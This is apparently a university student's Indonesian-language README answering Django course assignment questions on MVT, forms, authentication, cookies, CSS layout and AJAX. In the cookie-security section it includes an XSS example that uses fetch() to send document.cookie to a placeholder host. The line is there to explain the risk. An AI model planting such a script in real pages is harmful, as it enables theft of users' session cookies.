

# Tugas 2: Implementasi Model-View-Template (MVT) pada Django

**Nama:** Heraldo Arman  
**NPM:** 2406420702  
**Kelas:** PBP - E  
**Link Penugasan:** [Tugas 2](https://pbp-fasilkom-ui.github.io/ganjil-2026/assignments/individual/assignment-2)  
**Link Deployment:** [heraldo-arman-pacilstation.pbp.cs.ui.ac.id](https://heraldo-arman-pacilstation.pbp.cs.ui.ac.id/)

---

## 1. Jelaskan bagaimana cara kamu mengimplementasikan checklist di atas secara step-by-step (bukan hanya sekadar mengikuti tutorial).

Selain mengikuti tutorial, saya juga bereksperimen dengan beberapa hal tambahan. Saya membaca [dokumentasi resmi](https://docs.djangoproject.com/en/5.2/), tutorial eksternal seperti [w3school](https://www.w3schools.com/django/), dan juga sesekali bertanya ke LLM untuk debugging error. Beberapa hal yang saya eksplorasi tambahan diluar penugasan yang saya lakukan antara lain mencoba UI library ([DaisyUI](https://daisyui.com/docs/cdn/) dan [TailwindCSS](https://tailwindcss.com/docs/installation/play-cdn)) dengan [CDN](https://aws.amazon.com/id/what-is/cdn/), mencoba Django Admin, serta melakukan read database.

Langkah yang saya lakukan secara garis besar adalah:

1. Membuat virtual environment python baru, lalu menginstall Django dan dependency yang diperlukan.
2. Menginisialisasi project Django.
3. Mengatur `settings.py` untuk menghubungkan project dengan database.
4. Membuat aplikasi baru bernama **main**, kemudian membuat **template**, **URL routing**, dan konfigurasi sederhana di `views.py`.
5. Mengintegrasikan **[TailwindCSS](https://tailwindcss.com/docs/installation/play-cdn)** dan **[DaisyUI](https://daisyui.com/docs/cdn/)** menggunakan [CDN](https://aws.amazon.com/id/what-is/cdn/) agar lebih mudah.
6. Membuat model bernama **Product**, lalu memasukannya di `admin.py` agar bisa menambahkan data.
7. Membuat superuser untuk mengakses admin dashboard.
8. Membuat template dan bereksperimen dengan tampilan frontend.
9. Melakukan deployment ke [PWS](https://pbp.cs.ui.ac.id/web)

---

## 2. Buatlah bagan yang berisi request client ke web aplikasi berbasis Django beserta responnya dan jelaskan pada bagan tersebut kaitan antara `urls.py`, `views.py`, `models.py`, dan berkas html.

  
_(gambar dibuat dengan [PlantUML](https://www.plantuml.com/plantuml/uml/))_

**Penjelasan Singkat:**

1. Client mengirim request ke server lalu masuk ke `urls.py`.
2. `urls.py` memeriksa pola URL, jika valid maka request diteruskan ke `views.py`. Namun jika tak valid maka akan mereturn error 404.
3. di `views.py` kita bisa melakukan beberapa fungsi seperti melakukan query ke `models.py` bila diperlukan.
4. Data dari `models.py` dikembalikan ke `views.py`.
5. `views.py` merender template HTML menggunakan data tersebut.
6. Hasil render dikemas dalam `HttpResponse` dan dikirim ke browser sebagai response.

---

## 3. Jelaskan peran `settings.py` dalam proyek Django!

Sederhananya, file `settings.py` berfungsi sebagai pusat konfigurasi proyek Django.  
Hal yang bisa dilakukan seperti

- Konfigurasi database.
- Environment variable.
- Allowed hosts.
- Direktori static files.
- Middleware.
- Installed apps.
- Keamanan & autentikasi.
- Dan masih banyak lagi.
  Singkatnya, `settings.py` adalah tempat mengatur semua konfigurasi inti dalam proyek Django.

---

## 4. Bagaimana cara kerja migrasi database di Django?

1. Melakukan definisi database di `models.py` menggunakan class Python.
2. Jalankan command:
   ```bash
   python manage.py makemigrations
   ```
   Disini Django akan membuat file di folder `migrations/` berisi instruksi Python yang merepresentasikan perubahan tabel.
3. Jalankan command:
   ```bash
   python manage.py migrate
   ```
   Django mengeksekusi file migrasi tersebut menjadi query SQL lalu model berhasil diterapkan di database.

---

## 5. Menurut Anda, dari semua framework yang ada, mengapa framework Django dijadikan permulaan pembelajaran pengembangan perangkat lunak?

Menurut saya pribadi:

- Django relatif mudah dipelajari dibandingkan framework lainnya.
- Sudah memiliki banyak fitur bawaan yang melimpah (**ORM, autentikasi, middleware, admin panel, unit test**, dll) dan ini sangat memudahkan untuk mendevelop project fullstack dengan cepat.
- Cocok untuk **prototyping cepat** tanpa perlu memasang banyak library tambahan.
- Dokumentasi dan komunitas Django sangat lengkap dan melimpah. Ada banyak tutorial, blog, diskusi, pertanyaan di [stackoverflow](https://stackoverflow.com/questions), boilerplate, contoh, dan banyak hal lainnya.
- Django adalah framework yang kuat, cocok dijadikan fondasi sebelum mempelajari framework lain.

---

## 6. Apakah ada feedback untuk asisten dosen tutorial 1 yang telah kamu kerjakan sebelumnya?

Tutorial seru, walaupun sayangnya harus dilaksanakan secara online. Asisten dosen ramah dan sangat membantu. Semoga kedepannya bisa segera kembali offline.

---

## Credit

- logo: [logoipsum.com](https://logoipsum.com/artwork/389)

---

## Lampiran Screenshot Project

  


# Tugas 3: Implementasi Form dan Data Delivery pada Django

**Nama:** Heraldo Arman  
**NPM:** 2406420702  
**Kelas:** PBP - E  
**Link Penugasan:** [Tugas 3](https://pbp-fasilkom-ui.github.io/ganjil-2026/assignments/individual/assignment-3)  
**Link Deployment:** [heraldo-arman-pacilstation.pbp.cs.ui.ac.id](https://heraldo-arman-pacilstation.pbp.cs.ui.ac.id/)

---

## 1. Jelaskan mengapa kita memerlukan _data delivery_ dalam pengimplementasian sebuah platform?

Data delivery itu sangat penting karena berhubungan dengan bagaimana data tersebut berpindah. kebanyakan platform modern biasanya terdiri dari banyak bagan (backend, frontend, database, API eksternal, dll). Tanpa data delivery, informasi yang ada bisa menjadi tidak sinkron, sulit diakses real-time, dan rawan kehilangan data. Contoh sederhananya adalah ketika pengguna melakukan checkout, sistem perlu mengirim data ke database, menampilkan status pesanan ke pengguna, sekaligus mengirim notifikasi. Semua ini hanya mungkin dengan adanya data delivery yang baik.

---

## 2. Menurutmu, mana yang lebih baik antara XML dan JSON? Mengapa JSON lebih populer dibandingkan XML?

Menurut saya pribadi, JSON lebih baik dibandingkan dengan XML karena lebih mudah dibaca oleh manusia. XML dan JSON sendiri merupakan sama sama format pertukaran data. Namun JSON lebih populer karena ia lebih sederhana dan mudah dipahami. Ditambah lagi, kebanyakan library pemrograman modern (seperti JavaScript, Python, dan banyak framework web lainnya) sudah menyediakan dukungan native untuk JSON, sehingga parsing dan manipulasi data menjadi lebih mudah dan efisien. Selain itu, JSON memiliki struktur yang lebih ringkas, tidak memerlukan tag penutup seperti XML, dan lebih hemat bandwidth. Oleh karena itu, JSON lebih banyak digunakan dalam pengembangan aplikasi web dan API saat ini.

---

## 3. Jelaskan fungsi dari method `is_valid()` pada form Django dan mengapa kita membutuhkan method tersebut?

Method `is_valid()` digunakan untuk melakukan validasi data yang dimasukkan oleh user ke dalam form. Fungsi ini nantinya akan melakukan:

- Pengecekan apakah semua field sudah sesuai aturan (tipe data benar atau tidak, kolom yang wajib di isi terisi atau tidak, dll).
- Mereturn `True` jika data valid dan `False` jika terdapat error.

Tanpa `is_valid()`, terdapat risiko dimana terdapat data yang salah atau tak sesuai ke dalam database.

---

## 3. Mengapa kita membutuhkan `csrf_token` saat membuat form di Django? Apa yang dapat terjadi jika kita tidak menambahkan `csrf_token` pada form Django? Bagaimana hal tersebut dapat dimanfaatkan oleh penyerang?

`CSRF` (Cross Site Request Forgery) adalah jenis serangan di mana situs jahat membuat link, form, atau kode JavaScript yang memicu aksi di situs lain (situs target) menggunakan kredensial pengguna yang sedang login pada situs target. Jadi pengguna tanpa sadar melakukan aksi yang merugikan. Jika form di template tidak menyertakan `csrf_token`, maka penyerang bisa membuat sebuah halaman di situs jahat yang mengirim request POST ke situs target (di mana user sedang login) tanpa sepengetahuan user.

**Sumber:** [Django CSRF Documentation](https://docs.djangoproject.com/en/5.2/ref/csrf/)

---

## 5. Jelaskan bagaimana cara kamu mengimplementasikan checklist di atas secara step-by-step (bukan hanya sekadar mengikuti tutorial).

Selain mengikuti tutorial, saya juga bereksperimen dengan beberapa hal tambahan. Saya membaca [dokumentasi resmi](https://docs.djangoproject.com/en/5.2/topics/forms/modelforms/#overriding-the-default-fields), tutorial eksternal seperti [w3school](https://www.w3schools.com/django/) dan [GeeksForGeeks](https://www.geeksforgeeks.org/python/django-forms/), dan juga sesekali bertanya ke LLM untuk debugging error.

Langkah yang saya lakukan secara garis besar adalah:

1. Membuat views baru.
2. Membuat `forms.py` dan mengisi kodenya.
3. Membuat file html baru dan mengisinya.
4. Lalu menambahkan sedikit styling untuk mempercantik
5. Lalu menambah button add product pada navbat.

Sisanya seperti `serta tombol "Detail" pada setiap data objek model yang akan menampilkan halaman detail objek.` dan `Membuat halaman yang menampilkan detail dari setiap data objek model.` tak saya kerjakan di sesi ini karena saya sudah mengerjakannya di tugas sebelumnya.

---

## Lampiran Screenshot Postman Untuk Mendapatkan data JSON dan XML

### Get All Product JSON


### Get All Product XML


### Get Product By Id JSON


### Get Product By Id XML


# Tugas 4: Implementasi Autentikasi, Session, dan Cookies pada Django

**Nama:** Heraldo Arman  
**NPM:** 2406420702  
**Kelas:** PBP - E  
**Link Penugasan:** [Tugas 4](https://pbp-fasilkom-ui.github.io/ganjil-2026/assignments/individual/assignment-4)  
**Link Deployment:** [heraldo-arman-pacilstation.pbp.cs.ui.ac.id](https://heraldo-arman-pacilstation.pbp.cs.ui.ac.id/)

---

## 1. Apa itu Django `AuthenticationForm`? Jelaskan juga kelebihan dan kekurangannya.

Django `AuthenticationForm` adalah salah satu form bawaan dari Django yang digunakan untuk proses autentikasi pengguna, biasanya saat login. Form ini memiliki 2 field utama, yakni `username` dan `password`. Fungsi utamanya adalah untuk melakukan validasi kredensial, menyediakan error handling otomatis (credential salah atau lainnya), dan integrasi dengan django `login()` yang mana bisa langsung dipakai untuk login user.

### Contoh penggunaan dasar

```python
from django.contrib.auth.forms import AuthenticationForm
from django.contrib.auth import login
from django.shortcuts import render, redirect

def login_view(request):
    if request.method == "POST":
        form = AuthenticationForm(request, data=request.POST)
        if form.is_valid():
            user = form.get_user()
            login(request, user)
            return redirect('home')
    else:
        form = AuthenticationForm()
    return render(request, 'login.html', {'form': form})

```

### Kelebihan `AuthenticationForm`

1. Mudah digunakan, bisa langsung dipakai dan sudah memiliki cukup banyak fitur.
2. Keamanan yang terjaga karena memang sudah dioptimisasi untuk proyek Django.
3. Integrasi penuh dengan Django Auth yang mana kompatibel dengan middleware, session, dan decorators seperti `@login_required`.
4. Error handling otomatis yang bisa langsung memberikan feedback error jika gagal login.

### Kekurangan `AuthenticationForm`

1. Agak kurang fleksibel untuk di kustomisasi.
2. Tampilan default tidak memiliki styling, harus di styling sendiri _(cek `forms.py` untuk contoh lebih lanjut)_
3. Hanya menyediakan autentikasi dasar, jika ingin mengimplementasikan fitur yang lebih advanced seperti `2FA` atau semacamnya harus implementasi sendiri

---

## 2. Apa perbedaan antara autentikasi dan otorisasi? Bagaimana Django mengimplementasikan kedua konsep tersebut?

### Definisi autentikasi vs otorisasi

Autentikasi adalah proses untuk memverifikasi identitas pengguna atau sistem guna memastikan bahwa mereka adalah siapa yang mereka klaim.
Sedangkan Otorisasi adalah proses untuk menentukan dan memberikan hak akses kepada pengguna atau sistem yang telah diautentikasi.

### Contoh kasus


**Sumber:** [Geeks for Geeks](https://www.geeksforgeeks.org/computer-networks/difference-between-authentication-and-authorization/)

| Aspek          | Autentikasi                             | Otorisasi                                 |
| -------------- | --------------------------------------- | ----------------------------------------- |
| **Tujuan**     | Melakukan verifikasi identitas pengguna | Menentukan hak akses pengguna             |
| **Pertanyaan** | "Who are you?"                          | "What permission do you have?"            |
| **Urutan**     | Dilakukan sebelum otorisasi             | Dilakukan setelah autentikasi             |
| **Contoh**     | Login dengan username dan password      | Mengakses data berdasarkan peran pengguna |

### Bagaimana Django handle kedua konsep tersebut

- Authentication: Django menyediakan `django.contrib.auth` untuk autentikasi serta form bawaan `AuthenticationForm`
- Authorization: Django menggunakan decorator seperti `@login_required()`

---

## 3. Apa saja kelebihan dan kekurangan _session_ dan _cookies_ dalam konteks menyimpan state di aplikasi web?

### _Session_

Kelebihan:

- Lebih aman karena data disimpan di dalam server langsung.
- Bisa menyimpan data lebih besar dibandingkan dengan _cookies_ yang hanya bisa maksimal menyimpan 4kb.
- Server memiliki kontrol penuh karena bisa menghapus atau mengubah session kapan saja.

Kekurangan:

- Membutuhkan storage server lebih besar, terutama kalau jumlah pengguna banyak
- Data bertahan hanya sementara, kalau user logout, biasanya data akan dihapus.

### _Cookies_

Kelebihan:

- Persistent dimana data bisa bertahan lebih lama
- Mudah diakses di client side.
- Lebih ringan dibanding _Session_.

Kekurangan:

- Size terbatas, hanya sekitar 4kb
- Data lebih mudah dicuri dan rencan XSS
- Data dikirim setiap request yang mana bisa membuat beban server sedikit naik

| Aspek                  | Cookies                     | Session                                        |
| ---------------------- | --------------------------- | ---------------------------------------------- |
| **Tempat penyimpanan** | Client (browser)            | Server                                         |
| **Keamanan**           | Rentan dimanipulasi/XSS     | Lebih aman, data tidak di client               |
| **Ukuran data**        | Terbatas, hanya sekitar 4kb | Bisa besar, tergantung server dan jumlah beban |
| **Persistensi**        | Bisa bertahan lama          | Biasanya sementara, bisa dihapus saat logout   |
| **Overhead network**   | Dikirim tiap request        | Hanya ID dikirim, data tetap di server         |

---

## 4. Apakah penggunaan _cookies_ aman secara _default_ dalam pengembangan web, atau apakah ada risiko potensial yang harus diwaspadai? Bagaimana Django menangani hal tersebut?

Secara _default_, penggunaan _cookies_ tidaklah aman dalam pengembangan web karena cookies disimpan di dalam web browser milik _client_. Ada beberapa risiko umum yang biasanya terjadi di dalam penggunaan cookies seperti:

- Pencurian _cookie_, biasanya dilakukan dengan xss. Contoh sederhananya seperti berikut
  ```html
  <script>
    fetch("https://example.com/?cookie=" + document.cookie);
  </script>
  ```
- Manipulasi _cookie_, dimana _cookie_ bisa diedit oleh user di sisi _client_, misal mengubah preferensi atau level akses jika server tidak memvalidasi dengan benar.
- Cross-Site Request Forgery (CSRF), dimana _cookies_ otomatis dikirim ke domain asal, sehingga bisa disalahgunakan untuk melakukan aksi atas nama user tanpa sepengetahuan mereka.

### Bagaimana django menangani cookies

- Django menyediakan CSRF middleware, yang menggunakan token untuk mencegah request palsu yang menggunakan cookie login. contoh sederhana penggunaannya seperti
  ```html
  <form method="POST">
    
    <!-- isi form lainnya -->
  </form>
  ```
- Django memiliki fitur [signed cookies](https://docs.djangoproject.com/en/5.2/topics/signing/) dimana data di cookie tidak bisa diubah sembarangan oleh client tanpa terdeteksi.
- Django memiliki fitur session ID di cookie secara default, sementara data disimpan di session disimpan di dalam server. Secara default memiliki settingan sebagai berikut

  ```python
  SESSION_COOKIE_HTTPONLY = True # cookie tidak bisa diakses JS, sumber: https://docs.djangoproject.com/en/5.2/ref/settings/#std-setting-SESSION_COOKIE_HTTPONLY
  SESSION_COOKIE_SECURE = False # bisa diaktifkan untuk HTTPS, sumber: https://docs.djangoproject.com/en/5.2/ref/settings/#session-cookie-secure
  SESSION_COOKIE_SAMESITE = 'Lax' # membantu mencegah CSRF, sumber: https://docs.djangoproject.com/en/5.2/ref/settings/#session-cookie-samesite

  ```

---

## 5. Jelaskan bagaimana cara kamu mengimplementasikan _checklist_ di atas secara _step-by-step_ (bukan hanya sekadar mengikuti tutorial).

Selain mengikuti tutorial, saya juga bereksperimen dengan beberapa hal tambahan. Saya membaca [dokumentasi resmi](https://docs.djangoproject.com/en/5.2/topics/auth/default/), tutorial eksternal seperti [w3school](https://www.w3schools.com/django/), dan juga sesekali bertanya ke LLM untuk debugging error.

Langkah yang saya lakukan secara garis besar adalah:

1. Membuat views baru.
2. Mengubah sedikit model database nya.
3. Membuat `forms.py` berupa AuthenticationForm agar saya bisa melakukan kustomisasi pada styling nya dan.
4. Membuat file html baru dan mengisinya.
5. Lalu menambahkan sedikit styling untuk mempercantik di forms.py
6. Lalu menambahkan page baru untuk melihat profile dan data cookies seperti last login

---

# Tugas 5: Desain Web menggunakan HTML, CSS dan Framework CSS

**Nama:** Heraldo Arman  
**NPM:** 2406420702  
**Kelas:** PBP - E  
**Link Penugasan:** [Tugas 5](https://pbp-fasilkom-ui.github.io/ganjil-2026/assignments/individual/assignment-5)  
**Link Deployment:** [heraldo-arman-pacilstation.pbp.cs.ui.ac.id](https://heraldo-arman-pacilstation.pbp.cs.ui.ac.id/)

---

## 1. Jika terdapat beberapa CSS selector untuk suatu elemen HTML, jelaskan urutan prioritas pengambilan CSS selector tersebut!

diurutkan dari paling prioritas terlebih dahulu

1. **`!important`**  
   Aturan dengan `!important` akan selalu menang, karena sesuai namanya `!important`

2. **Inline Style**  
   CSS yang ditulis langsung pada elemen menggunakan atribut `style="..."` memiliki prioritas lebih tinggi dibandingkan selector biasa.

3. **Spesifisitas Selector**  
   Jika tidak ada `!important` atau inline style, maka urutan spesifisitas selector berlaku:

   - **ID Selector** (`#id`) — paling kuat
   - **Class, Attribute, dan Pseudo-class** (`.class`, `[attr]`, `:hover`)
   - **Element dan Pseudo-element** (`div`, `h1`, `::before`)

4. **Urutan Deklarasi**  
   Jika dua aturan memiliki spesifisitas yang sama, maka aturan yang ditulis terakhir di file CSS yang akan diterapkan.

**Contoh urutan prioritas:**

```
!important > Inline style > ID > Class/attribute/pseudo-class > Element/pseudo-element > Urutan terakhir
```

### **Contoh:**

```html
<head>
  <meta charset="UTF-8" />
  <title>Prioritas CSS</title>
  <style>
    p {
      color: green;
    }
    .teks {
      color: blue;
    }
    #khusus {
      color: red;
    }
    .penting {
      color: purple !important;
    }
  </style>
</head>
<body>
  <p>ini hijau</p>
  <p class="teks">ini biru</p>
  <p id="khusus" class="teks">ini merah</p>
  <p id="khusus" class="teks penting">ini ungu</p>
  <p style="color: brown;">Ini coklat</p>
</body>
```

---

## 2. Mengapa _responsive design_ menjadi konsep yang penting dalam pengembangan aplikasi web? Berikan contoh aplikasi yang sudah dan belum menerapkan _responsive design_, serta jelaskan mengapa!

_Responsive design_ penting dalam pengembangan aplikasi web karena pada dasarnya aplikasi web seharusnya bisa diakses oleh berbagai jenis perangkat. User tak hanya mengakses web dari komputer atau laptop, tapi bisa juga lewat smartphone, tablet, dan kadang bisa saja smart tv. Website yang tidak _responsive_ akan memaksa user untuk zoom in dan zoom out secara terus menerus yang mana ini sangat buruk secara User Exeperience (UX).

Contoh website yang _responsive_ adalah [Youtube](https://www.youtube.com/). Jika mencoba membuka youtube di berbagai device, tampilan nya masih nyaman digunakan dan memberikan User Experience (UX) yang masih menyenangkan.

Contoh website yang tidak _responsive_ adalah [SIAKNG](https://academic.ui.ac.id/). Hal ini karena web tersebut hanya memiliki 1 tampilan untuk seluruh ukuran layar. Dan ini akan merepotkan untuk beberapa pengguna.

---

## 3. Jelaskan perbedaan antara _margin_, _border_, dan _padding_, serta cara untuk mengimplementasikan ketiga hal tersebut!


Sumber: [badoystudio.com](https://badoystudio.com/wp-content/uploads/2022/10/padding-2-1024x740.png)

### _Margin_

_Margin_ adalah ruang di luar border elemen, yaitu jarak antar elemen. kegunaan utamanya adalah memisahkan elemen satu dengan elemen lain.

```css
.box {
  margin: 20px; /* semua sisi */
  margin-top: 10px; /* atas saja */
  margin-right: 15px; /* kanan saja */
}
```

### _Border_

_Border_ adalah baris yang mengelilingi padding dan content. Biasanya berfungsi untuk memberi batas visual pada elemen.

```css
.box {
  border: 2px solid black; /* ketebalan, gaya, warna */
  border-radius: 10px; /* sudut melengkung */
}
```

### _Padding_

_Padding_ adalah ruang antara content (isi) dengan _border_. Biasanya berfungsi untuk memberi “ruang napas” di dalam elemen agar teks/gambar tidak terlalu mepet ke _border_.

```css
.box {
  padding: 15px; /* semua sisi */
  padding-left: 30px; /* kiri saja */
}
```

### Contoh implementasi sederhana ketiganya


```html
<!DOCTYPE html>
<html>
  <head>
    <style>
      .box {
        background-color: lightblue;
        margin: 20px;
        padding: 15px;
        border: 3px solid navy;
      }
    </style>
  </head>
  <body>
    <div class="box">
      Ini adalah contoh box dengan margin, border, dan padding.
    </div>
  </body>
</html>
```

---

## 4. Jelaskan konsep _flex box_ dan _grid layout_ beserta kegunaannya!

### _Flexbox_ (Flexible Box Layout)

- _Flexbox_ digunakan untuk mengatur layout satu dimensi, entah baris (row) atau kolom (column).
- Elemen anak (flex items) bisa otomatis menyebar, menyusut, atau rata sesuai ruang yang tersedia.

Contoh css sederhana
```css
.container {
  display: flex; /* aktifkan flexbox */
  flex-direction: row; /* row (default) atau column */
  justify-content: center; /* posisi horizontal: start, end, center, space-between */
  align-items: center; /* posisi vertikal: start, end, center, stretch */
  gap: 10px; /* jarak antar item */
}
.item {
  flex: 1; /* bagi rata sisa ruang */
}
```


Sumber: [GeeksForGeeks](https://www.geeksforgeeks.org/css/comparison-between-css-grid-css-flexbox/)

### CSS _Grid Layout_

- _Grid layout_ digunakan untuk mengatur layout dua dimensi, baris dan kolom sekaligus.
- Bisa mendefinisikan grid template (baris & kolom), lalu menempatkan item sesuai posisi.

Contoh css sederhana
```css
.container {
  display: grid;
  grid-template-columns: repeat(3, 1fr); /* 3 kolom sama rata */
  grid-template-rows: auto 200px; /* baris pertama auto, baris kedua fixed 200px */
  gap: 10px;
}
.item {
  grid-column: span 2; /* item melebar ke 2 kolom */
}
```

Sumber: [GeeksForGeeks](https://www.geeksforgeeks.org/css/comparison-between-css-grid-css-flexbox/)


---

## 5. Jelaskan bagaimana cara kamu mengimplementasikan _checklist_ di atas secara step-by-step (bukan hanya sekadar mengikuti tutorial)!
Selain mengikuti tutorial, saya juga bereksperimen dengan beberapa hal tambahan. Saya membaca [dokumentasi resmi tailwindCSS](https://tailwindcss.com/), tutorial eksternal seperti [w3school](https://www.w3schools.com/w3css/defaulT.asp), melihat dokumentasi [DaisyUI](https://daisyui.com/), dan juga sesekali bertanya ke LLM untuk memperbaiki masalah responsiveness.

Langkah yang saya lakukan secara garis besar adalah:

1. Menginstall tailwindcss v4 dan daisyUI via cdn.
2. Mengubah tampilannya dengan tailwindCSS dan pakai [DaisyUI](https://daisyui.com/).
3. Membuat tampilannya lebih responsif
4. Menambahkan edit dan delete product.

---


# Tugas 6: Javascript dan AJAX

**Nama:** Heraldo Arman  
**NPM:** 2406420702  
**Kelas:** PBP - E  
**Link Penugasan:** [Tugas 6](https://pbp-fasilkom-ui.github.io/ganjil-2026/assignments/individual/assignment-6)  
**Link Deployment:** [heraldo-arman-pacilstation.pbp.cs.ui.ac.id](https://heraldo-arman-pacilstation.pbp.cs.ui.ac.id/)

---

## 1. Apa perbedaan antara synchronous request dan asynchronous request?

Sumber: [GeeksForGeeks](https://www.koyeb.com/static/images/blog/sync-vs-async-schema.png)

**Synchronous request** adalah request ke server di mana proses eksekusi kode akan berhenti dan menunggu hingga server memberikan response. Selama menunggu, pengguna tidak bisa melakukan interaksi lain pada aplikasi/web tersebut. Karena hal ini, akan memberikan semacam pengalaman _freeze_ yang mana kurang menyenangkan untuk user experience

**Asynchronous request** adalah request ke server yang dijalankan di background, sehingga aplikasi/web tetap bisa digunakan tanpa harus menunggu respon dari server. Dengan asynchronous, pengguna bisa tetap berinteraksi dengan aplikasi/web, sementara data akan diambil dan ditampilkan ketika sudah tersedia. Contoh paling umum adalah penggunaan AJAX pada JavaScript.

**Kesimpulan:**  
- Synchronous: menunggu response, aplikasi sementara.  
- Asynchronous: tidak menunggu response, aplikasi tetap berjalan normal.


## 2. Bagaimana AJAX bekerja di Django (alur request–response)?
  
_(gambar dibuat dengan [PlantUML](https://www.plantuml.com/plantuml/uml/))_

AJAX memungkinkan aplikasi web mengirim dan menerima data ke server secara asynchronous tanpa perlu me-refresh halaman. Di Django, alur request response AJAX kurang lebih sebagai berikut:

1. **User melakukan aksi di halaman web** (misal klik tombol), lalu JavaScript di browser membuat AJAX request (biasanya menggunakan `fetch`) ke endpoint Django (URL tertentu, bisa cek di `urls.ps`).
2. **Request diterima Django** melalui `urls.py`, lalu diteruskan ke view yang sesuai.
3. **View Django memproses request** (misal mengambil data dari database, memproses form, dll), lalu mengembalikan response dalam format data (umumnya JSON).
4. **Response JSON dikirim ke browser**.
5. **JavaScript di browser menerima response** dan melakukan update pada DOM (misal menampilkan data baru, mengubah tampilan, dsb) tanpa reload halaman.

**Contoh sederhana AJAX di Django:**

```javascript
// asumsi views url /get-products
fetch('/get-products/')
  .then(response => response.json())
  .then(data => {
    // lakukan sesuatu
  });
```

```python
from django.http import JsonResponse
# asumsi views ini memiliki url di /get-products
def get_products(request):
    products = list(Product.objects.values())
    return JsonResponse({'products': products})
```


## 3. Apa keuntungan menggunakan AJAX dibandingkan render biasa di Django?

Secara konsep, render di django berarti setiap kali user melakukan aksi (memencet tombol, submit form, dan lainnya) browser akan mengirim request, lalu django akan merender template penuh, lalu mengirim balik ke browser dan akan reload seluruh halaman. Namun ada beberapa batasan dari metode ini yang mana bisa diatasi oleh django.

1. *Tidak reload halaman penuh*: hanya bagian tertentu yang di-update, jadi pengalaman user lebih mulus (seperti aplikasi modern).
2. *Lebih cepat & efisien*: data yang ditransfer biasanya lebih kecil (JSON, bukan HTML penuh).
3. *Responsif*: cocok untuk fitur real-time seperti notifikasi, auto-search, live validation.
4. *User Experience lebih baik*: user bisa tetap berinteraksi dengan halaman tanpa terputus reload.
5. *Bisa komunikasi asynchronous*: backend jalan di background, user tidak perlu menunggu halaman selesai load untuk tetap melakukan hal lain.

## 4. Bagaimana cara memastikan keamanan saat menggunakan AJAX untuk fitur Login dan Register di Django?
1. **Gunakan CSRF Token:**  
  Django secara default menggunakan CSRF protection. Pastikan setiap AJAX request POST menyertakan CSRF token. Token ini bisa diambil dari template dan dikirim bersama data AJAX.
  ```javascript
  fetch('/login/', {
    method: 'POST',
    headers: {
     'X-CSRFToken': csrfToken, // ambil dari cookie atau template
     'Content-Type': 'application/json'
    },
    body: JSON.stringify({username, password})
  })
  ```
2. **Gunakan HTTPS:**  
  Pastikan website menggunakan HTTPS agar data (termasuk password) yang dikirim lewat AJAX tidak mudah disadap.

3. **Batasi Rate Request:**  
  Implementasikan rate limiting atau throttling agar tidak mudah terkena brute force attack pada endpoint login/register.


## 5. Bagaimana AJAX mempengaruhi pengalaman pengguna (User Experience) pada website?
AJAX sangat mempengaruhi pengalaman pengguna karena bisa mengatasi masalah dimana render biasa mengharuskan user untuk selalu reload page. Dari segi psikologis, AJAX membuat interaksi terasa lebih cepat dan responsif, sehingga pengguna merasa lebih nyaman dan tidak mudah frustrasi. Pengguna cenderung lebih fokus pada tugasnya karena tidak terganggu oleh proses reload yang lama. Hal ini meningkatkan kepuasan dan membuat pengguna lebih betah menggunakan website.
Selain itu, karena yang data yang dikirim hanya berupa data response (JSON misalnya), AJAX akan mengirimkan data yang lebih sedikit sehingga ini akan mempercepat loading dibandingkan mengirimkan keseluruhan html. Ditambah lagi, user tak harus menunggu layar putih atau loading penuh.
